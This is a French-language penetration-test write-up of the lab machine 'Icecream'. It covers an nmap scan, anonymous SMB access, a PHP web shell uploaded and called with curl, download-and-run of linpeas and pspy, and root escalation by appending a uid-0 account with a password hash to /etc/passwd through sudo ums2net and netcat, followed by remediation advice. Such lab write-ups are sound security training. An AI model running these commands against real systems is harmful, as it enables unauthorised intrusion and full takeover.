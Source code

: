 # 📌 Rapport de Vulnérabilité : Icecream

## 1. Introduction

### Objectif  
Identifier et exploiter les failles de sécurité de la machine cible **"Icecream"**.

### Informations sur les IP  
- **IP Cible :** 192.168.188.214  
- **IP Kali :** 192.168.188.128  

Après avoir installé **Icecream** et testé la communication entre les machines, nous pouvons commencer le pentest.

## 2. Découverte et Analyse Initiale des Services

### 2.1. Scan Nmap

#### Commandes exécutées :  
Définition de la variable IP cible et exécution d’un scan complet des ports, suivi d’un scan approfondi (`-sVC`) pour détecter les services et versions.

target=192.168.188.214  
nmap -T4 -p$(nmap -Pn -T4 -n -p- $target | grep 'tcp.*open' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) -Pn -n -sVC $target  

### 2.2. Analyse des services ouverts  

| Port  | Service      | Version / Info                 |
|-------|------------|--------------------------------|
| 22    | SSH        | OpenSSH 9.2p1 (Debian 12)      |
| 90    | HTTP       | Nginx 1.22.1 (403 Forbidden)   |
| 139   | SMB        | Samba 4.6.2 (NetBIOS)          |
| 445   | SMB        | Samba 4.6.2                    |
| 9000  | HTTP       | Nginx Unity 1.33.0 (Unit Server) |

## 3. Potentielles Pistes d'Exploitation

### 3.1. Exploitation des Ports SMB  
Analyse des vulnérabilités potentielles des ports **139** & **445** (Samba 4.6.2).  
Après consultation de **SearchSploit** et **CVE Details**, aucune faille exploitable récente n'a été identifiée.

#### Tests de connexion SMB  
Utilisation de `smbclient` pour tester l'accès aux partages.

smbclient -L //192.168.188.214 -N  

Connexion au partage **"icecream"** :  

smbclient //192.168.188.214/icecream -N  

📌 **Constat :**  
✅ Accès en écriture confirmé.  

## 4. Exploitation et Accès à la Machine

### 4.1. Mise en place d'un Web Shell  
Création et envoi d’un **Web Shell** pour exécuter des commandes à distance.

echo "<?php system(\$_GET['cmd']); ?>" > shell.php  

Envoi du Web Shell via **SMB** :  

smbclient //192.168.188.214/icecream -N  
put shell.php  

Exécution de commandes :  

curl "http://192.168.188.214/shell.php?cmd=id"  

## 5. Élévation de Privilèges

### 5.1. Analyse avec Linpeas et PSPY  
Téléchargement et exécution de **Linpeas** et **PSPY** pour identifier des vulnérabilités d’élévation de privilèges.

wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh  
chmod +x linpeas.sh  
./linpeas.sh  

wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64  
chmod +x pspy64  
./pspy64  

### 5.2. Exploitation de CVE-2021-3156  
Tentative d’exploitation de **CVE-2021-3156 (sudo heap overflow)** pour obtenir un shell root.  
❌ **Échec :** La version du système ne permet pas l’exploitation de cette faille.

### 5.3. Exploitation via ums2net  
L'exécutable `/usr/sbin/ums2net` est utilisable **sans mot de passe (NOPASSWD)**, ce qui permet de **modifier `/etc/passwd`** et d’ajouter un utilisateur root.

#### Modification de `/etc/passwd`  
echo 'aurelien:$6$IPVFVjVKK55o19kF$XqJHT3H5Qcmk96/iaLUfcC3UQPEYF0yFGzRtTinb/9NfQZIpWed9UfA6YBaEWhE5TRc1MLaXgLHWUtYI010Pj1:0:0:aurelien:/home/aurelien:/bin/bash' >> passwd  
nc -v 192.168.188.214 5000 < ./passwd  
sudo /usr/sbin/ums2net -c /tmp/config -d  

✅ **Accès root obtenu** via l’utilisateur **"aurelien"**.

## 6. Recommandations de Sécurité pour Corriger la Vulnérabilité ums2net

### 6.1. Révision des Permissions de Sudo  
Modifier le fichier `/etc/sudoers` pour supprimer **NOPASSWD** des commandes sensibles.

### 6.2. Sécurisation des Fichiers de Configuration  
- Restreindre les permissions de `/etc/passwd` :  
  chmod 644 /etc/passwd  
- Empêcher **ums2net** d’être exécuté en tant que root.

### 6.3. Mise à Jour et Patch du Système  
- Désinstaller ou mettre à jour **ums2net**.
- Vérifier les services SMB et SSH pour éviter les accès non autorisés.

## 7. Conclusion  
Nous avons réussi à :  
1. **Accéder au partage SMB** et identifier des fichiers exploitables.  
2. **Déployer un Web Shell** pour obtenir un accès shell distant.  
3. **Élever nos privilèges à root** en exploitant **ums2net**.

📌 **Actions correctives impératives** :  
- **Désactiver ou patcher ums2net**.  
- **Appliquer des restrictions sur SMB et SSH**.  
- **Surveiller les logs système pour détecter toute activité suspecte**.
